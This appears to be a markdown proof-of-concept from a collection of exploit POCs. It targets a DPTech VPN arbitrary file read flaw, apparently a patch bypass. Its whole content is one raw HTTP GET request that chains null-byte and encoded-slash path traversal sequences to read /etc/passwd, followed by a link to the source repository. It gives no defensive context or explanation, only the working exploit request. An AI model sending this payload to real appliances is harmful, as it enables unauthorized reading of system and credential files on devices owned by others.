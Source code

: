 # DPTech_fileread

```
GET /.%00.%2F.%00.%2F.%00.%2F.%00.%2F.%00.%2F.%00.%2F.%00.%2Fetc%2Fpasswd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

from: https://github.com/wy876/POC/blob/main/%E8%BF%AA%E6%99%AE/%E8%BF%AA%E6%99%AEDPTech-VPN%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96(%E8%A1%A5%E4%B8%81%E7%BB%95%E8%BF%87).md
